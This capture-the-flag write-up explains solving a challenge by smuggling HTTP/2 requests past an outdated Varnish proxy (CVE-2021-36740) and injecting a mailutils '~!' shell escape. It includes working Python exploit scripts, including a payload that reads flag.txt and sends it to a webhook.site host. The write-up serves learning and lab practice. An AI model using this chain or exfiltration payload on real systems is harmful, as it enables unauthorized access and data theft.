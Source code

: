# Smuggling Mail

## Challenge

```txt
Join our waitlist and we'll let you know about apartment vacancies!
```

## Walkthrough

We're given a pretty simple nodejs express server.

```js
app.use("/", express.static(path.join(__dirname, "public")));
app.use("/admin", express.static(path.join(__dirname, "admin")));

app.post("/waitlist", (req, res) => {
    res.send("Sorry, the waitlist is currently closed.");
});

app.post("/admin/alert", (req, res) => {
    if (req.body.msg) {
        const proc = spawn("mail", ["-s", "ALERT", "all_residents@localhost"], { timeout });
        proc.stdin.write(req.body.msg);
        proc.stdin.end();
        setTimeout(() => { kill(proc.pid); }, timeout);
    }

    res.end();
});
```

The server is behind a simple varnish reverse proxy.

```vcl
sub vcl_recv {
    if (req.url ~ "/admin" && !(req.http.Authorization ~ "^Basic TOKEN$")) {
        return (synth(403, "Access Denied"));
    }
}
```

TOKEN generated as such.

```sh
sed -i "s/TOKEN/$(base64 < /dev/urandom | fold -w 64 | tr '/+' '_-' | head -n 1)/" /etc/varnish/varnish.vcl
```

The server itself doesn't have much surface area - the only user controlled input is on /admin/alert and we can only acess that if we successfully guess 64 random bytes, unlikely. Checking the package.json revealed that expressJS was up to date so clearly the exploit wasn't there. This prompted me to look into the varnish server especially with the challenge being clearly hinted as a request *smuggling* challenge.

The Dockerfile revealed the varnish version was clearly out of date:

```Dockerfile
FROM varnish:6.4.0
```

Digging around I found [CVE-2021-36740](https://security.snyk.io/vuln/SNYK-DEBIAN11-VARNISH-1317119).

> Varnish Cache, with HTTP/2 enabled, allows request smuggling and VCL authorization bypass via a large Content-Length header for a POST request.

Looks promising, the hitch configuration has HTTP/2 enabled (`alpn-protos = "h2, http/1.1"`) and we have a valid post endpoint that we can abuse (`/waitlist`).

No POCs exist for this vulnerability so after playing with the `Content-Length` header myself I managed to get request smuggling working.

```py
import httpx
client = httpx.Client(http2=True, verify=False)

msg = '"hi"'
body = 'POST /admin/alert HTTP/1.1\r\nContent-Type: application/json\r\nContent-Length: {}\r\n\r\n{{"msg": {}}}'.format(len(msg)+9, msg)
resp = client.post("https://localhost:4000/waitlist", headers={'Content-length': '0'}, data=body)
```

I added some request logging in the nodejs server to check my exploit locally.

```log
POST /waitlist 200 2.834 ms - 40
writing hi
POST /admin/alert 200 13.788 ms - -
```

Now I had request smuggling working but that still didn't get us the flag. Our input data was being passed into the body of an email generated by GNU mailutils.

```js
const proc = spawn("mail", ["-s", "ALERT", "all_residents@localhost"], { timeout });
proc.stdin.write(req.body.msg);
```

Digging into the documentation I found that using mailutil commands you can actually [execute shell commands](https://mailutils.org/manual/mailutils.html#Executing-Shell-Commands) within the mail body.

> The ‘~!’ escape executes specified command and returns you to mail compose mode without altering your message.

Putting this all together I smuggled a request to the /admin/alert endpoint that executed a shell command leaking the flag.

```py
import httpx

msg = '"~! python -c \\\"import urllib2; urllib2.urlopen(urllib2.Request(\'https://webhook.site/<redacted>\', open(\'flag.txt\', \'r\').read()))\\\""'

client = httpx.Client(http2=True, verify=False)
body = 'POST /admin/alert HTTP/1.1\r\nContent-Type: application/json\r\nContent-Length: {}\r\n\r\n{{"msg": {}}}'.format(len(msg)+9, msg)
resp = client.post('https://localhost:4000/waitlist', headers={'Content-length': '0'}, data=body)
```

Pretty interesting "feature" for a cli mail client...

## Solve

`flag{5up3r_53cr3t_4nd_c001_f14g_g035_h3r3}`
